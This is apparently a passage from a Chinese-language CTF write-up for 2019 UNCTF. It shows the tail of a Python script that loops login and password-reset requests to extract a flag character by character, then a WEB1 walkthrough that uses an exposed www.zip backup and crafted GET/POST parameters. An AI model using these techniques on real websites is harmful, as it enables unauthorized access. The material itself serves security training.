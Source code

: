 ```
        "login_user": user,
        "login_password": '1',
        "mysubmit": "Login"
    }
    r = s.post(url1, data)
    # print r.content.decode()
    if "YOU ARE LOGGED IN AS" in r.content.decode():
        print "login ok"
    #
    更改密码
    data = {
        "current_password": '1',
        "password": '0',
        "re_password": '0',
        "submit": 'Reset'
    }
    r = s.post(url2, data)
    if "successfully updated" in r.content.decode():
        flag += chr(j)
    tmp = 1
    print "change ok"
    change21()
    break
    print flag
second()
```

### WEB1
#### 原理知识
1）	网站编写过程中一般都会留下一个备份文件，该文件就是网站的源码

2）	Get在url中传递参数，而post需要利用插件或工具传递参数

#### 解题过程
1.  访问*www.zip*，自动下载了一个压缩包，

![](https://ctfwp.wetolink.com/2019unctf/WEB1/1d8cf0cc7d45d09ce7f325b96812842a.png)

>   发现是备份文件，打开获得源码

2）

![](https://ctfwp.wetolink.com/2019unctf/WEB1/ac01746aa312f20428c2dd397c7b79bc.png)

发现有两个flag，一个flag_ahead,一个flag_behind，代码审计

3)根据要求get和post传参：GET：un=0 and 1

POST：ctf[]=99999999999

![](https://ctfwp.wetolink.com/2019unctf/WEB1/0117a44d8a7012bb570efe7c924ff792.png)

4)提交flag
